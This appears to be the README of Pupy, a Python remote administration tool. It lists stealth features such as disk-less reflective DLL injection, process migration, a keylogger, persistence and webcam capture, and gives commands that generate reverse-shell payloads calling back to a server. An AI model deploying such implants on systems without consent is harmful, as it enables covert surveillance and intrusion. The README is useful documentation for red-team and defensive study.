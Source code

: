 # Pupy
Pupy is an opensource, multi-platform Remote Administration Tool written in Python. On Windows, Pupy uses reflective dll injection and leaves no traces on disk.

## Features :
- On windows, the Pupy payload is compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
- Pupy can reflectively migrate into other processes
- Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd). The imported python modules do not touch the disk. (.pyd mem import currently work on Windows only, .so memory import is not implemented). 
- modules are quite simple to write and pupy is easily extensible.
- Pupy uses [rpyc](https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
  - we can also access remote objects interactively from the pupy shell and even auto completion of remote attributes works !
- communication channel currently works as a ssl reverse connection, but a bind payload will be implemented in the future
- all the non interactive modules can be dispatched on multiple hosts in one command
- Multi-platform (tested on windows 7, windows xp, kali linux, ubuntu)
- modules can be executed as background jobs
- commands and scripts running on remote hosts are interruptible
- auto-completion and nice colored output :-)
- commands aliases can be defined in the config

## Implemented Modules :
- migrate
  - inter process architecture injection also works (x86->x64 and x64->x86)
- keylogger
- persistence
- screenshot
- webcam snapshot
- in memory execution of PE exe both x86 and x64 :)
- command execution
- download
- upload
- socks5 proxy
- local port forwarding
- interactive shell (cmd.exe, /bin/sh, ...)
- interactive python shell
- shellcode exec (thanks to @byt3bl33d3r)

##Quick start
###Installation :
```bash
pip install rpyc
pip install pefile 
```
####Troubleshooting:
If you have some issues with rpyc while running the server on windows, take a look at issue #25, @deathfantasy made a fix 

### Generate/run a payload
In these examples the server is running on a linux host (tested on kali linux) and it's IP address is 192.168.0.1  
The clients have been tested on (Windows 7, Windows XP, kali linux, ubuntu, Mac OS X 10.10.5) 
#### for Windows
```bash
./pupygen.py 192.168.0.1 -p 443 -t exe_x86 -o pupyx86.exe
```
you can also use -t dll_x86 or dll_x64 to generate a reflective DLL and inject/load it by your own means.

#### for Linux
```bash
pip install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```
you can also build a single binary with pyinstaller :
```bash
pyinstaller --onefile /full_path/pupy/client/reverse_ssl.py
```

#### for MAC OS X
```bash
easy_install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```
you can also build a single binary with pyinstaller (but you can't "cross-compile", pyinstaller currently only support this from osx):
```bash
pyinstaller --onefile /full_path/pupy/client/reverse_ssl.py
```

### start the server
1. eventually edit pupy.conf to change the bind address / port
2. start the pupy server :
```bash
./pupysh.py
```

### Some screenshots
#####list connected clients
![screenshot1](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr1.png "screenshot1")
#####help
![screenshot3](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/help.png "screenshot3")
#####execute python code on all clients
![screenshot2](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr2.png "screenshot2")
#####execute a command on all clients, exception is retrieved in case the command does not exists
![screenshot4](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr3.png "screenshot4")
#####use a filter to send a module only on selected clients
![screenshot5](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/filters.png "screenshot5")
#####migrate into another process
![screenshot6](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/migrate.png "screenshot6")
#####interactive shell
![screenshot7](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/interactive_shell.png "screenshot7")
#####interactive python shell
![screenshot8](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/pyshell.png "screenshot8")
#####upload and run another PE exe from memory
![screenshot9](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/memory_exec.png "screenshot9")
#####list available modules (the list is not up to date)
![screenshot10](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/list_modules.png "screenshot10")

##Example: How to write a MsgBox module
first of all write the function/class you want to import on the remote client  
in the example we create the file pupy/packages/windows/all/pupwinutils/msgbox.py 
```python
import ctypes
import threading

def MessageBox(text, title):
	t=threading.Thread(target=ctypes.windll.user32.MessageBoxA, args=(None, text, title, 0))
	t.daemon=True
	t.start()
```
then, simply create a module to load our package and call the function remotely
```python
class MsgBoxPopup(PupyModule):
	""" Pop up a custom message box """

	def init_argparse(self):
		self.arg_parser = PupyArgumentParser(prog="msgbox", description=self.__doc__)
		self.arg_parser.add_argument('--title', help='msgbox title')
		self.arg_parser.add_argument('text', help='text to print in the msgbox :)')

	@windows_only
	def is_compatible(self):
		pass

	def run(self, args):
		self.client.load_package("pupwinutils.msgbox")
		self.client.conn.modules['pupwinutils.msgbox'].MessageBox(args.text, args.title)
		self.log("message box popped !")

```
and that's it, we have a fully functional module :)

```bash
>> run msgbox -h
usage: msgbox [-h] [--title TITLE] text

Pop up a custom message box

positional arguments:
  text           text to print in the msgbox :)

  optional arguments:
    -h, --help     show this help message and exit
    --title TITLE  msgbox title
```

## Dependencies
rpyc (https://github.com/tomerfiliba/rpyc)  
pefile  

##Roadmap and ideas
Some ideas without any priority order
- support for https proxy
- bind instead of reverse connection
- add offline options to payloads like enable/disable certificate checking, embed offline modules (persistence, keylogger, ...), etc...
- integrate scapy in the windows dll :D (that would be fun)
- work on stealthiness and modules under unix systems
- mic recording
- socks5 udp support
- remote port forwarding
- perhaps write some documentation
- The backdoor factory ?
- Impacket ?
- exfiltration through obfsproxy obfuscated network stream ?
- ...
- any cool idea ?

## FAQ
> Does the server works on windows ?

Yes but it has not really been tested and it may be unstable
> I can't install it how does it work ?

pip install rpyc
> hey c4n y0u add a DDOS module plzz?

No.

## Contact
by mail: contact@n1nj4.eu  
on Twitter: [Follow me on twitter](https://twitter.com/n1nj4sec)  
[![Join the chat at https://gitter.im/n1nj4sec/pupy](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/n1nj4sec/pupy?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)  
If some of you want to participate or send me a feedback, don't hesitate :-)
 
